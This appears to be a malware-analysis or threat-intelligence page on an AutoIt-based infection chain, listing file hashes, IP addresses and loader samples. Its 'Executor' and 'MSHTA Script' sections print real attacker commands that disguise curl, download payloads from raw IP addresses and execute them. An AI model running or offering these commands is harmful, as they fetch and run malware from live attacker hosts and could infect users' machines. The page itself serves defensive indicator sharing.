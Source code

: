 ## AutoIt 

### Decompiled Script
| MD5                              | SHA1                                     | SHA256                                                           |
| :------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- |
| 1eba15c358cdab786609f7ed2cfc08fe | dbe0bdb2dc9c1c2a30d4d3999808a91275678d5c | 9749ad3da407ad1b8dbf4693a9f5eb5afcc0730fe83baa073a4a52f9a9a74b8a | 

### Executor
```
/c mkdir c:\ghex & cd /d c:\ghex & copy c:\windows\system32\curl.exe ghex.exe & ghex -H "User-Agent: curl" -o Autoit3.exe http://94.228.169.143:2351 & ghex -o jcmvcy.au3 http://94.228.169.143:2351/msighexmaeh & Autoit3.exe jcmvcy.au3
```

## Post Infection

### IP Addresses
```
94.228.169.123
178.236.247.73
5.42.76.197
5.42.77.33
```

### MSHTA Script
```
about:"<script>var b = new ActiveXObject("wscript.shell"); b.run('cmd /c C:\\Windows\\system32\\curl.exe -o c:\\users\\public\\1.vbs http://5.42.76.197/Epv2pum/123&&timeout 10&&c:\\users\\public\\1.vbs', 0); window.close();</script>"
```

## Loader

| MD5                              | SHA1                                     | SHA256                                                           |
| :------------------------------- | ---------------------------------------- | ---------------------------------------------------------------- |
| 00dc734664bdf19fa7931104d53fc5e1 | c86cf82778ca3679233b3cb916d29d16db518aa2 | 2440d2480ac4ebecd1ed49ab739f91aa58df4afa6e3065bd619596ff3569c3a1 |
| 00ea4cb7272b3d70f10f3b530032f9ce | dedd3134698061ec7df53fa73520a1cf2de97b94 | 5a3f25658e927fe722cbbc5cb66d05b1da4a645e25d915883fac5149ca44ca47 |
| 02d6ec1e6a8a3b478eb4c788d220b240 | 66046cf7ec5045a6cdd36ed111bbdee33e17fae2 | 2f67e24f8ae280e8dc3f5beb24a3027e36229bd34a94cb94dabaf5a4065c7d7a |
| 038d827a90b72b3bcc403de1b3c0bcdf | b1caeff6bffb45182815468ef35b72970f45597c | 7898448fe893c9a7d6712f231f7d02c027fc90a47af89dd96ac3eb5a5bcef12e |
| 03d7779bb95582858822468269f1a289 | 0f59f3fd688ce319e7d50a660998cf818e533b9a | 02466855eab82537b8ed599f776da7137a031d0a6677b7f0fea071c7e1cef896 |
| 045b4625542a4d7584cfb61a76399477 | 6e0b98f8c7c2ef16758ce2f1625fe2e10e2356b2 | d6e5d2d21f125972fc9544bf5ab871df07da0241862cc7ecc7a58eb39ee9ff3c |
| 04935e6600017aaf62ac1afe5f2aba88 | 805290ffee3275f5d0df04c0918869384bf1b97f | fc86a8bf765b87bbc908364211be80cf28db4b7bf1cd6a8c71d537400f48fbd1 |
| 05a79eec1cd41c34835f9b73dadb4c6b | b0092d4315648c79de8d8e20a391f96c3e40e043 | 4560b8b266698e01e1de1c6c0754d49db6113047af755ec24675d23f6eb40e40 |
| 05d0a24b6f1dabf00d53df92e4e2caf0 | 6b2c54b6f22dc91d0d7022e98b554552f3a1d4eb | 811f0601d896b37a4875e3959a8ead21b1adba90c40e5dd06dd8f640c6ea124b |
| 05d947c0b1e81791c4dad5735ea52e91 | d964946f7a3c474eb312c43998875144ec4f39d8 | fdb6a28c5c7fd9a487ab66b22058af6a7d6f464d67c4fab24c7babd3be29d5e1 |
| 07531093398dfe2a9b548f8d1bd24800 | 6a921dabd9377adc2f27d94e74902e13fcae4082 | 6bd0b01d17ceebda2e9c03165eb35603b7f79b75bbbf7b27450f54f882bedb85 |
| 0890ee5a833bc8ab070998cc8b10e76e | 3afc9b2af944f3a1435c99d50448832306134c6f | a62283e15befd29c74f4bbdbe92012ea01abe83fb27b98641cb11307f1f09c02 |
| 0a3f912178d7e55fb6cffdb9f7f62178 | 1d51bab13740eecf354c63edbe44cf9d60447699 | 7e726fa43ce1091c30c4c7e7bee8e50a33da34b58c5d2b551f6dc335c63b7af9 |
| 0b188154dbca947afc31f9b342f48d14 | a8b34288814f19c5c1efaaaa80a1cb3621817928 | a8521a2291dbf2fb847849c703a6423f61736cdeb91992c4c421e5b88d3f7cb1 |
| 0bcea7dfbf236fc591b9403594a5d403 | 409c3e8e94db80de48948125bbd8c1d03db1c265 | d824c8e8abd71f8cb02ddf4e1d7edbb5c063a1d7e10c765d0da977b88358da9b |